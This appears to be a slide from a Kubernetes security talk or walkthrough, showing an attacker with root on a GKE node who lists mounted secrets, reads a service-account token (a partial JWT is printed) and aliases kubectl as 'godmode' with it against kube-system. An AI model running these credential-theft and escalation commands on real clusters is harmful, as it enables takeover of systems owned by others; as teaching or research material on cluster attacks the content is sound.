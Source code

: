 ### List mounted secrets

```yaml
  r00t / # mount | grep secret
  tmpfs on /var/lib/kubelet/pods/.../kubernetes.io~secret/fluentbit-gke-token-...
  tmpfs on /var/lib/kubelet/pods/.../kubernetes.io~secret/fluentbit-gke-token-...
  ....
# tmpfs on /home/kubernetes/.../.../.../target-sa-token-hzhlf type tmpfs (rw,relatime) 👀
# tmpfs on /home/kubernetes/.../.../.../target-sa-token-hzhlf type tmpfs (rw,relatime) 👀
  ....
```

- Looks like our target token... 
 👀 👀 👀 👀 👀 👀

---
### Unmount secrets

```yaml
r00t / # ls /home/kubernetes/containerized_mounter/rootfs/var/lib/
#        kubelet/pods/.../volumes/kubernetes.io~secret/target-sa-token-hzhlf
  ca.crt  namespace  token



r00t / # cat /home/kubernetes/containerized_mounter/rootfs/var/lib/
#       kubelet/pods/.../volumes/kubernetes.io~secret/target-sa-token-hzhlf/token
  eyJhbGciOiJSUzI1NiIsImtpZCI6IkZTMEdpZzJTT1Rwc1ByMzJCLUw4U2xjS2VnZnhaVmxPd21Tal9adHVRTmcifQ.
  eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1
  lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJ0YX
.....

root@hckd# alias godmode=kubectl --token=`cat token`                          \
    --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt  \
    -n kube-system                                                            \
    --server=https://$KUBERNETES_PORT_443_TCP_ADDR                            

```

---
